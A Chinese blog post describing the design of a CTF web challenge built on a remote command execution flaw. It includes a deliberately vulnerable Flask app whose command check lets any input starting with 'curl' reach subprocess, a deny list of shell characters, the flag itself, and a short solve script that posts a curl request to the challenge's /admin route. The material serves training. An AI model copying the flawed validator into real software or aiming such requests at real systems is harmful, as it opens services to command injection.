 #  CTF-Web_RCE的出题思路   
原创 徐睿涵  攻防SRC   2024-06-12 17:43  
  
# 1.概要  
  
这是一个基于远程代码执行（RCE）漏洞的CTF题目，选手需要通过编写Python脚本，利用漏洞获取管理员的敏感信息，获取flag。  
# 2.远程代码执行（RCE）  
  
远程代码执行（Remote Code Execution，RCE）漏洞是指攻击者能够在目标系统上执行任意代码的安全漏洞。RCE漏洞的常见原因包括输入验证不充分、不安全的系统命令调用和依赖库的漏洞。攻击者可以利用RCE漏洞执行恶意操作，如窃取数据、修改系统配置或进一步扩展攻击范围。RCE漏洞的常见原因包括：● 输入验证不充分：未对用户输入进行充分验证和过滤，导致恶意输入能够直接被执行。● 不安全的系统命令调用：在代码中直接使用不安全的系统命令调用，如使用Python的 subprocess 模块、PHP的 exec 函数等，而没有对输入进行适当的校验和过滤。● 依赖库的漏洞：所依赖的第三方库或框架中存在安全漏洞，被攻击者利用来执行任意代码。  
# 3.题目  
## 3.1.题目代码（不提供给参赛者）  
```
from flask import Flask, request, render_template_string
import subprocess
import shlex
import re

app = Flask(__name__)

HTML_TEMPLATE = '''<!DOCTYPE html><html><head>    <title>Remote Code Execution</title></head><body>    <h1>Execute Command</h1>    <form method="POST" action="/execute">        <label for="command">Command:</label>        <input type="text" id="command" name="command">        <label for="ip">IP:</label>        <input type="text" id="ip" name="ip" value="{{ request.remote_addr }}">        <input type="submit" value="Execute">    </form>    {% if result %}    <div>        <h2>Result:</h2>        <pre>{{ result }}</pre>    </div>    {% endif %}</body></html>'''

def is_valid_command(command):
    # 允许的命令列表
    allowed_commands = ['ls', 'echo', 'whoami']
    # 黑名单中的命令和字符
    forbidden_patterns = [';', '&', '|', '`', '>', '<']
    if command.startswith('curl'):
        return True
    # 检查命令是否在允许列表中
    if any(command.startswith(cmd) for cmd in allowed_commands):
        # 检查是否包含黑名单中的字符
        if not any(pattern in command for pattern in forbidden_patterns):
            return True
    return False

def is_valid_ip(ip):
    # 检查IP格式是否有效
    ip_pattern = re.compile(r'^(\d{1,3}\.){3}\d{1,3}$')
    if ip_pattern.match(ip):
        return True
    return False

@app.route('/')
def index():
    return render_template_string(HTML_TEMPLATE)

@app.route('/execute', methods=['POST'])
def execute():
    command = request.form.get('command')
    ip = request.form.get('ip')
    
    # 检查命令和IP是否合法
    if not is_valid_command(command) or not is_valid_ip(ip):
        return render_template_string(HTML_TEMPLATE, result="Invalid command or IP.")
    
    try:
        # 使用shlex确保命令安全执行
        args = shlex.split(command)
        result = subprocess.run(args, shell=False, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        # 获取命令执行的输出
        output = result.stdout.decode('utf-8') + result.stderr.decode('utf-8')
    except Exception as e:
        # 捕获并返回异常信息
        output = str(e)
    
    log_ip(ip)
    return render_template_string(HTML_TEMPLATE, result=output)

@app.route('/admin')
def admin():
    flag = "flag{To_be_both_a_speaker_of_words_and_a_doer_of_deeds_xuruihan_is_the_author}"
    return flag

def log_ip(ip):
    with open('/tmp/ip_log.txt', 'a') as f:
        f.write(ip + '\n')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1921)

```  
## 3.2.部署方式  
  
环境：ubuntu20.04 python3+flask+配置必要的防火墙规则，允许端口1921的HTTP流量  
```
sudo apt update
sudo apt install python3 python3-pip
pip3 install flask
sudo ufw allow 1921/tcp
sudo ufw reload

```  
  
将上述代码保存为 app.py。运行应用程序：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OhSaZUmBmCOqE1SiaoXddTVgnB9AAcCmVYzgu5GgaRn9Z8509nIPlx9skjXdfnvbXDDISwtPpyTZjaNdpUtK4ew/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OhSaZUmBmCOqE1SiaoXddTVgnB9AAcCmV7lzzrfcXjQibHLXKhjPkhocjQxGIBQJpj1icqK6byF5VvZj50gAfftDQ/640?wx_fmt=png&from=appmsg "")  
# 4.解题思路  
## 4.1.分析网页  
  
访问部署在云服务器上的主页面，观察输入框、IP地址输入框和提交按钮。  
## 4.2.尝试提交命令  
  
尝试提交常见的命令观察结果。注意到只有特定命令可以执行。  
## 4.3.发现可以执行 curl 命令  
  
注意到 curl 命令被允许执行，尝试构造 curl 请求来获取 /admin 路径的内容。  
## 4.4.编写Python脚本进行远程代码执行  
  
编写一个Python脚本，通过POST请求提交 curl 命令，获取 /admin 路径的内容，从而获取flag。  
# 5.解题代码  
```
import requests

url = "http://10.211.55.65:1921/execute"

# 构造要执行的命令和伪造的IP
command = "curl http://10.211.55.65:1921/admin"
fake_ip = "10.211.55.65"

# 发送POST请求，执行命令
response = requests.post(url, data={'command': command, 'ip': fake_ip})

# 提取和打印执行结果
result = response.text
print("Command execution result:")
print(result)

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OhSaZUmBmCOqE1SiaoXddTVgnB9AAcCmV0YiaBsL5Cgkf1rxIIOrdVgXXWib0NdsI7z0rl2oibWfNKoqeUpiadD3nlg/640?wx_fmt=png&from=appmsg "")  
  
所以，本题的flag为flag{To_be_both_a_speaker_of_words_and_a_doer_of_deeds_xuruihan_is_the_author}  
# 6.题外话  
  
这道题没啥技术含量，就是一个简单的RCE漏洞，没有多少弯弯绕绕的东西。四叶草话题结束了，另外插个投票，调查一下粉丝的喜好。  
  
  
  
  
